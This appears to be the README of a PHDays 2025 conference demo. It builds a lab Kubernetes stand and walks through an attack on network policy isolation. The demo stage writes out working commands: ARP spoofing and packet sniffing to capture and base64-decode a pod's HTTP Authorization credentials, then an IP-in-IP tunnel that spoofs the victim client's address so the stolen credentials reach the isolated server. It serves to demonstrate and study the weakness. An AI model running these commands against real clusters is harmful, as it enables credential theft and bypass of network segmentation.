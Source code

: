 PHDays 2025 Demo
================

Requirements
------------

- macOS/ARM
- [Docker Desktop](https://docs.docker.com/desktop/setup/install/mac-install/)
- [Packer v1.12](https://developer.hashicorp.com/packer/tutorials/docker-get-started/get-started-install-cli)
- [VirtualBox v7.1](https://www.virtualbox.org/wiki/Downloads)
- Python 3
- [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-macos/)

Setup
-----

Install required packages:

```sh
python -m venv .venv
. .venv/bin/activate
python -m pip install --upgrade pip
python -m pip install --requirement=requirements.txt
ansible-galaxy collection install --requirements-file=requirements.yml
```

Add to `/etc/hosts`:

```
127.0.0.1 control-plane
```

Build images:

```sh
make debian
make malicious
```

Set up demo stand:

```sh
make gateway
make control-plane
make workers
```

Wait until all the pods are ready:

```sh
export KUBECONFIG=kubeconfig.yml

kubectl get pods --all-namespaces
```

Test network connectivity:

```sh
# HTTP/1.1 200 OK
kubectl exec private-app-client --namespace=alice -- \
    curl \
        --silent \
        --connect-timeout 3 \
        --netrc \
        --head \
        http://app.alice

# HTTP/1.1 401 Unauthorized
kubectl exec network-multitool --namespace=mallory -- \
    curl \
        --silent \
        --connect-timeout 3 \
        --head \
        http://app.alice
```

Apply network policies:

```sh
make networkpolicy
```

Test network connectivity:

```sh
# HTTP/1.1 200 OK
kubectl exec private-app-client --namespace=alice -- \
    curl \
        --silent \
        --connect-timeout 3 \
        --netrc \
        --head \
        http://app.alice

# failure (exit code: 28)
kubectl exec network-multitool --namespace=mallory -- \
    curl \
        --silent \
        --connect-timeout 3 \
        --head \
        http://app.alice
```

Demo
----

### Stage 1. Discover Alice Workload IP Addresses ###

Execute with host shell:

```sh
export KUBECONFIG=kubeconfig.yml

kubectl apply --filename=k8s/malicious.yml
kubectl exec malicious --namespace=mallory --stdin --tty -- bash
```

Execute with `mallory/malicious` pod shell:

```sh
arpspoof -i enp0s9 -t 192.168.78.12 192.168.78.11 2> /dev/null &
arpspoof -i enp0s9 -t 192.168.78.11 192.168.78.12 2> /dev/null &
tcpdump -i enp0s9 -Q in -n -A proto 4 and src 192.168.78.11
```

Execute with host shell:

```sh
kubectl exec private-app-client --namespace=alice -- \
    curl \
        --silent \
        --connect-timeout 3 \
        --netrc \
        --head \
        http://app.alice
```

Check `tcpdump` output (`mallory/malicious` pod shell). Compare with the
following addresses (execute with host shell):

```sh
kubectl get pods/private-app-client --namespace=alice --output='jsonpath={.status.podIP}'
kubectl get pods/private-app-server --namespace=alice --output='jsonpath={.status.podIP}'
```

Check `tcpdump` output (`mallory/malicious` pod shell). Decode `Authorization`
header value (execute with `mallory/malicious` pod shell):

```sh
echo YWxpY2U6UGEkJHcwckQ= | base64 -d ; echo
```

### Stage 2. Alice Workload Network Isolation Bypass ###

Execute with `mallory/malicious` pod shell:

```sh
# change to discovered addresses
alice_client_address=172.29.193.133
alice_server_address=172.29.109.5

alice_server_credentials=$(echo YWxpY2U6UGEkJHcwckQ= | base64 -d)

ip address add 192.168.78.11/24 dev enp0s9
ip link add ipspoof0 type ipip local 192.168.78.11 remote 192.168.78.12
ip link set dev ipspoof0 up
ip address add ${alice_client_address}/32 dev ipspoof0
ip route add ${alice_server_address}/32 dev ipspoof0

curl \
    --silent \
    --connect-timeout 3 \
    --user ${alice_server_credentials} \
    http://${alice_server_address}/
```

Cleanup
-------

```sh
make clean-all
```
